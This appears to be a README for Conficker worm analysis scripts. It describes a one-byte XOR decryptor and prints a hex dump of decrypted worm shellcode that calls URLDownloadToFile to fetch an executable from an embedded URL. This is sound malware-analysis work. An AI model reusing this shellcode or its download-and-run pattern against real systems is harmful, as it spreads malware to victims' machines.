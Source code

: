 # Worm Conflicker Analysis scripts

conflicker_shellcode_decryptor.py - Carries out decryption of the shellcode used by conflicker/netapi worm.It's a one-byte XOR decryptor.

The output looks like,

00000170  83 c6 07 e8 18 00 00 00  33 d2 52 52 8b cc 66 c7  |........3.RR..f.|
00000180  01 78 2e 51 ff 77 04 52  52 51 56 52 ff 37 ff e0  |.x.Q.w.RRQVR.7..|
00000190  ad 51 56 95 8b 4b 3c 8b  4c 0b 78 03 cb 33 f6 8d  |.QV..K<.L.x..3..|
000001a0  14 b3 03 51 20 8b 12 03  d3 0f 00 c0 0f bf c0 c1  |...Q ...........|
000001b0  c0 07 32 02 42 80 3a 00  75 f5 3b c5 74 06 46 3b  |..2.B.:.u.;.t.F;|
000001c0  71 18 72 db 8b 51 24 03  d3 0f b7 14 72 8b 41 1c  |q.r..Q$.....r.A.|
000001d0  03 c3 8b 04 90 03 c3 5e  59 c3 60 a2 8a 76 26 80  |.......^Y.`..v&.|
000001e0  ac c8 75 72 6c 6d 6f 6e  00 99 23 5d d9 68 74 74  |..urlmon..#].htt|
000001f0  70 3a 2f 2f 31 39 32 2e  31 36 38 2e 31 38 38 2e  |p://192.168.188.|
00000200  32 3a 32 31 39 31 2f 78  6d 7a 69 00 89 97 ab bd  |2:2191/xmzi.....|
00000210  a2 8d 89 94 b0 80 80 ae  a5 a7 80 93 89 8d b4 a5  |................|
00000220  90 9c a7 93 87 97 a2 85  96 9c 90 94 95 9c a9 82  |................|

The decrypted output indicates the shellcode using 'urlmon.dll' of which 'URLDownloadToFile' function is used to download the executable from the URL mentioned in the decrypted buffer.
